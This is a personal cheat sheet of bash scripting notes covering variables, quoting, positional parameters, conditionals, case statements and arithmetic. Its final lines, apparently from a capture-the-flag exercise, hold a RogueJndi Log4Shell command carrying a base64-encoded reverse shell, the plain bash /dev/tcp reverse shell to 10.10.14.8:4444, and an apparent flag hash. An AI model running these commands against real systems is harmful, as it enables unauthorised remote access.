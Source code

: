 `type -a 'item'` - find out if its a shell builtin or user command
	if user command use man
	if shell builtin use help
Use command to assign to variable = `VARIABLE=$(cmd)`  
	Can also be `VARIABLE=`\``cmd`\`
Assign value using variable  
`WORD='script'`
variable = `${WORD}` or `$WORD`  
	When you want to display the variable's value you use `$Variable`  
	Single quotes prevent expansion of variables 
	Double quotes provides the interpretation of the variable 
		`TEST='1'`
		`echo "$TEST"` provides 1
		`echo '$TEST'` provides $test
	If we want to append text to the end of the variable you need to use `{}`
	`echo "${WORD}ing"` provides Scripting
	Combining variables also require that you use the `{`
Changing the value stored in a variable (Reassignment)
	`ENDING='ed'`
	`echo "$ENDING"` ed
	`ENDING='ing'`
	`echo "$ENDING"` ing
parameter - variable being used inside the shell script
`;` is command separator or enter key
arguement - data passed into the shel lscritp
	arguement used in command line becoems the value stored in a parameter
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command
`${1}` - value fo the first arguement passed to the script on the cmd
expression = `[[ expression ]]
	Display if user is root or not
```
if [[ "${UID}" -eq 0 ]]
		then
			echo 'You are root'
		else 
			echo 'You are not root'
		fi 
```

`${?}` exit status variable of the most recently executed command
read input `read ` `-p` -passes the input onto value 
	ex. `read -p 'Entire input: ' variable_name`
useradd `-c` -comment for user `-m`(make home directory) `"username"`
shuf - shuffles entire lines
fold - wrap each input line to match space 
which - finds which path x command will execute from
	`which head` - finds location of head cmd
hash - `hash` - changes shell remembered locations
basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking
dirname - strips last component from file name - aka display only directory  - doesnt do smart checking
!`letter` - goes back to last command that started with X letter
`${@}` - puts each input as seperate words
`${*}` - puts each input as one word
`${#}` - represents the number of arguments
`sleep -s m h d` - delays command for -seconds -minutes -hours -days
`shift` - each time the cmd runs, ${#} goes down one
`readonly [variable]=[variable assignment]` - read only variable 
`getopts` - used matching pattern to get options from input
	`getopts input options OPTION`
	`while GET`
`bash pgrep -x` - check processes
`
### Case
case `[input]` in
`value`) `command` ;;
;; - block ender
esac - case finish

When trying to do math in bash format is `$(( NUM + NUM ))`
num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

